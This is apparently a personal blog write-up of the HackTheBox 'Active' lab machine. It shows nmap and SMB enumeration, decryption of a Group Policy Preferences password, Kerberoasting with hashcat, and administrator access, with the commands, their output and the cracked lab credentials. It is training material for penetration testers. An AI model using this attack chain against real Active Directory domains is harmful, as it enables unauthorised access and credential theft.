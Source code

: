 ```yaml
---
layout: post
title: "HackTheBox: Active - Writeup 03/10/2024"
description: A writeup for HackTheBox Active
date:   2024-10-03 08:49 +0530
image:  '/images/post/active.jpg'
tags:   [HackTheBox,htb]
---
```



## Setup
`mkdir -p ~/ctf/HackTheBox/active/scans; cd ~/ctf/HackTheBox/active`
IP Address: 10.10.10.100


`echo "10.10.10.100 active.htb" | sudo tee -a /etc/hosts`
10.10.10.100 active.htb
***
### Enumeration 

`nmap -sC -sV -Pn -p- active.htb -oN scans/nmap -vv`
`nmap -sC -sV -p- -T5 --min-rate 2500 -oN scans/nmap_2 active.htb`
```
# nmap findings

PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5722/tcp  open  msdfsr           syn-ack
47001/tcp open  winrm            syn-ack
49152/tcp open  unknown          syn-ack
49153/tcp open  unknown          syn-ack
49154/tcp open  unknown          syn-ack
49155/tcp open  unknown          syn-ack
49157/tcp open  unknown          syn-ack
49158/tcp open  unknown          syn-ack
49165/tcp open  unknown          syn-ack
49166/tcp open  unknown          syn-ack
49168/tcp open  unknown          syn-ack

```

`cme smb active.htb -u '' -p '' --shares`  

```
SMB         active.htb      445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         active.htb      445    DC               [+] active.htb\: 
SMB         active.htb      445    DC               [+] Enumerated shares
SMB         active.htb      445    DC               Share           Permissions     Remark
SMB         active.htb      445    DC               -----           -----------     ------
SMB         active.htb      445    DC               ADMIN$                          Remote Admin
SMB         active.htb      445    DC               C$                              Default share
SMB         active.htb      445    DC               IPC$                            Remote IPC
SMB         active.htb      445    DC               NETLOGON                        Logon server share 
SMB         active.htb      445    DC               Replication     READ            
SMB         active.htb      445    DC               SYSVOL                          Logon server share 
SMB         active.htb      445    DC               Users                           
```

Inside Replication directory, Which looked like SYSVOL backup . we find a XML under  `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\groups` ![cbbba79ad423bd5560d5cddb544b0a2b.png]({{site.baseurl}}/images/post/cbbba79ad423bd5560d5cddb544b0a2b.png)

Using [gpp-decrypt](https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/)
![5e2c4c5cdac10b905e27acf46074c510.png]({{site.baseurl}}/images/post/5e2c4c5cdac10b905e27acf46074c510.png)



```
gpp-decrypt <encrypted cpassword >
gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"

GPPstillStandingStrong2k18
```

`SVC_TGS:GPPstillStandingStrong2k18`

Using CrackMapExec we see the access for User SVC_TGS
![a5082bd0111660481603c36b3bad0dea.png]({{site.baseurl}}/images/post/a5082bd0111660481603c36b3bad0dea.png)

as SMB We have access to User we can see 
![6fa33424d6b2139303bf0b1e86d85fe3.png]({{site.baseurl}}/images/post/6fa33424d6b2139303bf0b1e86d85fe3.png)

***
# user flag
Location: \SVC_TGS\Desktop\ | Flag: ##################################

***
#### Privilege Escalation
Now as we have TGS service account: we can try Kerboroasting 

![985a997b529dbf101d695bb4813e2a67.png]({{site.baseurl}}/images/post/985a997b529dbf101d695bb4813e2a67.png)

we need resolve the system clock w.r.t to machine clock 

I Found this on medium for this 
![eaeaaed126328b4c2d636e71c1a37e63.png]({{site.baseurl}}/images/post/eaeaaed126328b4c2d636e71c1a37e63.png)

```
 sudo timedatectl set-ntp off 
 sudo rdate -n 10.10.10.100
```

![76ab9017fce1047dce82375134857ce6.png]({{site.baseurl}}/images/post/76ab9017fce1047dce82375134857ce6.png)

`hashcat -m 13100 hashes_kerberoastingg /usr/share/wordlists/rockyou.txt
`
![5cc1b69884eeace5592153006dd26b9d.png]({{site.baseurl}}/images/post/5cc1b69884eeace5592153006dd26b9d.png)
`Administrator:Ticketmaster1968`

using crackmapexec we check privileges and shares 
```
 w3rew01f@w3rew01f  ~/ctf/HackTheBox/active  cme smb active.htb -u 'Administrator' -p 'Ticketmaster1968'           
SMB         active.htb      445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         active.htb      445    DC               [+] active.htb\Administrator:Ticketmaster1968 (Pwn3d!)
 w3rew01f@w3rew01f  ~/ctf/HackTheBox/active  cme smb active.htb -u 'Administrator' -p 'Ticketmaster1968' --shares
SMB         active.htb      445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         active.htb      445    DC               [+] active.htb\Administrator:Ticketmaster1968 (Pwn3d!)
SMB         active.htb      445    DC               [+] Enumerated shares
SMB         active.htb      445    DC               Share           Permissions     Remark
SMB         active.htb      445    DC               -----           -----------     ------
SMB         active.htb      445    DC               ADMIN$          READ,WRITE      Remote Admin
SMB         active.htb      445    DC               C$              READ,WRITE      Default share
SMB         active.htb      445    DC               IPC$                            Remote IPC
SMB         active.htb      445    DC               NETLOGON        READ,WRITE      Logon server share 
SMB         active.htb      445    DC               Replication     READ            
SMB         active.htb      445    DC               SYSVOL          READ            Logon server share 
SMB         active.htb      445    DC               Users           READ            

```

using smbclient we get root flag

![d2a35e07513ccdcbee1661bfb3c1f142.png]({{site.baseurl}}/images/post/d2a35e07513ccdcbee1661bfb3c1f142.png)

# root flag
Location: \Users\Administrator\Desktop\ | Flag: 30e625##################################
